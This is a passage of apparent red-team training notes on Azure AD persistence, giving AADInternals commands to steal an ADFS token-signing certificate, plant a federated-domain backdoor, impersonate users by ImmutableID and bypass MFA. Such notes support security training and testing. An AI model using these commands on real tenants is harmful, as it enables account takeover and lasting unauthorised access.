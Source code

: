 - Using AADInternals, export the token signing certificate
```
Export-AADIntADFSSigningCertificate
```
- Use the below command from AADInternals to access cloud apps as the user whose immutableID is specified
```
Open-AADIntOffice365Portal -ImmutableID pwrtlmsicU+5tgCUgHx2tA== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```

# Persistence


- Like any other system, Azure provides many interesting persistence opportunities.
- Look for persistence, wherever we can modify or create a resource or permission or have an access that is not time limited.



Persistence - Hybrid Identity - On-Prem to Cloud




- It is recommended by Microsoft to join the Azure AD Connect server to the on-prem AD.
- This means that the persistence mechanisms for on-prem (like Golden Ticket, Silver Ticket, ACL Backdoors and others) that provide us either DA on the on- prem or local admin on the Azure AD connect server will allow to get GA on Azure AD on demand!
- For PHS, we can extract the credentials
- For PTA, we can install the agent
- For Federation, we can extract the certificate from ADFS server using DA


## Persistence - Federation - Trusted Domain




- If we have GA privileges on a tenant, we can add a new domain (must be verified), configure its authentication type to Federated and configure the domain to trust a specific certificate (any.sts in the below command) and issuer.
- Using AADInternals:
```
ConvertTo-AADIntBackdoor -DomainName cyberranges.io
```

- Get ImmutableID of the user that we want to impersonate. Using Msol module
```
Get-MsolUser | select userPrincipalName,ImmutableID
```
- Access any cloud app as the user
```
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== - Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA $true
```


## Persistence - Federation - Token Signing Certificate
